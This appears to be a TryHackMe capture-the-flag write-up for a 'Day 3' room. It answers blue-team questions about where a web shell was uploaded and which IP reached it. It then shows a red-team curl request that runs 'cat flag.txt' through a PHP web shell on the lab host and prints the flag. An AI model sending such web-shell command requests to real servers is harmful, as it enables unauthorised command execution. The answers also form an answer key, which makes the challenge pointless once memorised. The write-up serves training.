




# Try Hack Me

## Day 3: Even if I wanted to go, their vulnerabilities wouldn't allow it.

### BLUE: Where was the web shell uploaded to?
#### Answer format: /directory/directory/directory/filename.php



`/media/images/rooms/shell.php`

### BLUE: What IP address accessed the web shell?



`10.11.83.34`

### RED: What is the contents of the flag.txt?





```shell
echo "10.10.50.130 frostypines.thm" >> /etc/hosts
```

```shell
curl https://frostypines.thm/media/images/rooms/exploit.php?command=cat%20flag.txt
```

```
THM{Gl1tch_Was_H3r3}
```
